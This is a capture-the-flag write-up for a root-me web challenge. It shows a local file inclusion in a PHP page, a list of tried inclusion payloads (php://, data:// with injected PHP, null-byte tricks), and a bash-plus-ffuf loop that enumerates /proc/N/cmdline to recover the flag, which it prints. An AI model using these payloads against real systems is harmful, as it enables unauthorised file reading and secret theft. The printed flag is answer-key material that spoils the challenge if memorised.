



# Ech0's Secure Flag Checker

   



## Investigating



The main page looks like this, with 3 links to take in account:

- **Home** that redirects us to `/?view=home.html`;

- **Application** that redirects us to `/?view=app.html`;

- **here** that redirects us to `/?view=app.html` too.

This definitely looks like a LFI. I need to confirm my doubts.

Upon reaching `/?view=../` I am greeted with this interesting message:

```
Warning: include(/var/www): failed to open stream: Success in /var/www/html/index.php on line 20

Warning: include(): Failed opening '../' for inclusion (include_path='.:/usr/local/lib/php:/proc') in /var/www/html/index.php on line 20
```

**LFI Confirmed!**

## Useless payloads

Because my writeups aren't nearly as good if I don't show how I struggle with challenges before solving them, here are a list of what didn't work (understand failed exceptionally) and gave me no clue about what I could do.

- `/proc/self/cmdline` gave me `apache2-DFOREGROUND`, thank you but that's not helpful;

- `/proc/self/environ`: 404 not found;

- `data://`, `expect://`, `php://` and other flavors that all told me to just stop trying;

- `app.html%00data://text/plain,<?php phpinfo(); ?>` to trick it into thinking it was a readable file (I suspect 404 to come when the file is not readable);
  
  ```
  Warning: is_readable() expects parameter 1 to be a valid path, string given in   /var/www/html/index.php on line 12
  ```

- `/?view[]=app.html,home.html)`;
  
  ```
  Warning: urldecode() expects parameter 1 to be string, array given in /var/www/html/index.php on line 10
  ```

- Directory listing with `ffuf`.

So far we have seen three functions that are used to prevent us from doing anything we want: `is_readable`, `urldecode` and the obvious `include`. What else could I do?

## Memory helps!

I remembered an old challenge I did (on root-me, HTB or in a CTF, I don't remember) where I had to go through all the processes in order to find what I wanted.

I used my favorite `zsh` command to see which processes had a response for `cmdline`. I excluded responses with sizes 1366, 1393 and 1515 that I found to be errors while fuzzing for directory discovery.

```bash
for i in {1..10000}
do
 # your-unix-command-here
 echo $i >> numbers
done

ffuf -w numbers -fs 1366,1393,1515 -u 'http://ctf10k.root-me.org:6002/?view=/proc/FUZZ/cmdline'
```

Process 8 responded, and when I reached to page, I saw a curious python command.

```
python3/var/www/html/flagChecker.py--flagRM{Thx2Anth0&M1k4Y0uFl4gg3d0bfu6}
```

This is it! After hours of directory listing, using any existing LFI payload I could think of, I finally found it.


Flag : `RM{Thx2Anth0&M1k4Y0uFl4gg3d0bfu6}`
